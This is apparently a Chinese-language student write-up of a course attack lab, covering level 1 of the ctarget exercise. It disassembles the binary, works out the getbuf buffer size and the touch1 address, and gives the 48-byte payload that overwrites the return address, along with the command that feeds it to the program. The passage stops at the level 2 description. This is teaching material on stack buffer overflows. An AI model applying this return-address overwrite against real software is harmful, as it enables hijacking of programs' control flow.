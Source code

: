 &emsp;&emsp;我们想要用输入数据覆盖掉getbuf的返回地址，并且让getbuf跳转到touch1函数去，那么我们必须需要知道
1.	getbuf的输入缓存大小。
2.	getbuf的栈帧大小，以此确定存放getbuf返回函数地址的栈帧区域。 
3.	touch1函数的入口地址。  

那么，首先反汇编得到ctarget的汇编代码：

	objdump -d ctarget > ctargetCode.txt
	
分析汇编代码，我们可以得知touch1的入口地址是0x4017c0
```
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
```

接着分析getbuf代码，发现getbuf一共申请了0x28（十进制40）个字节来保存输入数据。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq  
一种可行的方法：
```

再分析调用getbuf的test函数，发现test的返回地址保存在属于getbuf栈帧的上面8个字节处：
```
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

很显然，假设当前栈顶rsp在getbuf处，那么rsp~rsp+0x27是保存输入数据，rsp+0x28~0x+2f保存getbuf的返回地址。剩下的很简单，我们输入48个字节，并且最后8个字节是touch1的入口地址即可，这里为了简单起见，我的前40个字节都是00：
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

将上述字节码保存文件ctarget-l1.txt处，输入命令即可pass第一个任务:
```
./hex2raw < ctarget-l1.txt | ./ctarget -q
```

#	Ctarget-level-2
##	问题描述
和level1类似，覆盖函数返回地址，使得getbuf函数完成后跳转到touch2函数。不同的是，这一次需要带上参数。
